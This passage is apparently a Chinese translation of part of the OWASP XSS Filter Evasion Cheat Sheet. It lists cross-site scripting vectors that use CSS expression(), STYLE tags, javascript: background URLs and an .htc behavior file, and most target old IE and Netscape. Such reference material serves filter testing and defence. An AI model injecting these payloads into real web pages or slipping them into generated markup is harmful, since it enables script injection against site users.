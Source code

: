 ```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

### 带表情的 IMG 样式[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-style-with-expression)

这实际上是上述 XSS 向量的混合体，但它确实显示了 STYLE 标记的解析难度，就像上面这样可以将 IE 发送到循环中：

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

### 样式标签（仅限旧版本的 Netscape）[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#style-tag-older-versions-of-netscape-only)

```
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```

### 使用背景图像的样式标记[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#style-tag-using-background-image)

```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

### 使用背景的样式标记[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#style-tag-using-background)

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>` `<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

### 具有 STYLE 属性的匿名 HTML[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#anonymous-html-with-style-attribute)

IE 渲染引擎模式下的 IE6.0 和 Netscape 8.1+ 并不真正关心您构建的 HTML 标签是否存在，只要它以左尖括号和字母开头：

```
<XSS STYLE="xss:expression(alert('XSS'))">
```

### 本地HTC文件[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#local-htc-file)

这与上述两个跨站点脚本向量略有不同，因为它使用 .htc 文件，该文件必须与 XSS 向量位于同一服务器上。示例文件通过拉入 JavaScript 并将其作为样式属性的一部分运行：

```
<XSS STYLE="behavior: url(xss.htc);">
```
